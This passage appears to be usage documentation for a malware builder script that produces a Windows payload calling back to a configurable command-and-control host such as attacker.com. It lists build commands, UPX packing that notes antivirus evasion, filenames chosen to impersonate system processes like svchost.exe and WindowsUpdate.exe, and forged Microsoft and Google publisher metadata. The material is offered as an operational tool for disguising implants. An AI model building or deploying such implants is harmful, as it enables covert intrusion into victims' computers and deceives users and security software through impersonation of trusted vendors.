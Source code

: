### 3. **Custom C2**
```bash
C2_HOST=attacker.com C2_PORT=443 bash build_trusted_windows.sh
```
**Result:** Connects to your domain on HTTPS port

### 4. **Compressed (Smaller Size)**
```bash
USE_UPX=yes bash build_trusted_windows.sh
```
**Result:** ~40-60% smaller binary (may trigger some AVs)

### 5. **Complete Custom**
```bash
PAYLOAD_NAME="OneDrive.exe" \
C2_HOST=cdn.example.com \
C2_PORT=443 \
USE_UPX=no \
bash build_trusted_windows.sh
```

---

## 🎨 Available Filenames

The script randomly chooses from these legitimate-looking names:

```
WindowsUpdate.exe          ← Windows Update
svchost.exe                ← Windows Service Host  
RuntimeBroker.exe          ← Windows Runtime
SecurityHealthSystray.exe  ← Windows Security
OneDrive.exe               ← Microsoft OneDrive
MicrosoftEdgeUpdate.exe    ← Edge Browser
GoogleUpdate.exe           ← Google Update
AdobeARM.exe               ← Adobe Updater
OfficeClickToRun.exe       ← Office Update
```

---

## 🏭 Metadata Styles

### Microsoft (Default)
```
Company: Microsoft Corporation
Description: Windows System Update Service
Product: Microsoft® Windows® Operating System
```

### Google
```
Company: Google LLC
Description: Google Update Service
Product: Google Update
```
